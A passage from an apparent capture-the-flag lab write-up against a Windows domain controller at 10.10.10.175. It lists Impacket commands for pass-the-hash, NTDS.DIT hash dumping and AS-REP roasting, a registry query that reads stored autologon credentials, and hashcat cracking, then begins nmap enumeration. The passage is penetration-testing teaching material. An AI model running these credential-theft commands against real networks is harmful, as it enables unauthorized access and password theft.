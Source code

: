 #### psexec.py

* You can use `psexec` to pass-the-\(NT\)hash to get system privileges.  A valid administrator account username and hash are needed.
* `sudo python3 psexec.py -hashes :<password_hash> Administrator@10.10.10.175` 

#### secretsdump.py

* Use this to dump password hashes from `NTDS.DIT` from a domain server.  Requires valid user credentials.  
* `python3 ./secretsdump.py <domain_name>/<username>@10.10.10.175` 
* Adding the flag `-just-dc-ntlm` will make it dump only the Lanman and NT hashes.

#### GetNPUsers.py

* Extracts the Kerberos `krb5asrep` hashes for users from the domain controller.  This requires a valid `DOMAINNAME/username` pair to run.  Will only extract hashes for users that do not require Kerberos pre-authentication. 
* `python3 GetNPUsers.py -outputfile <out_file> -format hashcat -usersfile <username_file> -no-pass -dc-ip 10.10.10.175 <domain_name>/<user_name>`
* In this example the output will be in hashcat format.

### Extracting Windows Auto-logon credentials with `reg query`

The command `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"` will output any stored Windows Auto-logon credentials.

### Using `hashcat` to crack Kerberos hashes

* In order to crack `krb5asrep` type hashes the `-m 18200` option is needed.
* `hashcat -m 18200 -a 0 <input_file> <wordlist> --force`

### Enumerating valid usernames through `kerberos` using MetaSploit

In the Metasploit console the `auxiliary(gather/kerberos_enumusers)` tool enumerates valid users against Kerberos from a list.  This scanner also checks if each user has "pre-auth required" enabled.

## Enumeration

### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.175`.  The options I regularly use are: 

| `Flag` | Purpose |
| :--- | :--- |
| `-p-` | A shortcut which tells nmap to scan all ports |
| `-vvv` | Gives very verbose output so I can see the results as they are found, and also includes some information not normally shown |
| `-sC` | Equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target |
| `-sV` | Does a service version scan |
| `-oA $name` | Saves all three formats \(standard, greppable, and XML\) of output with a filename of `$name` |
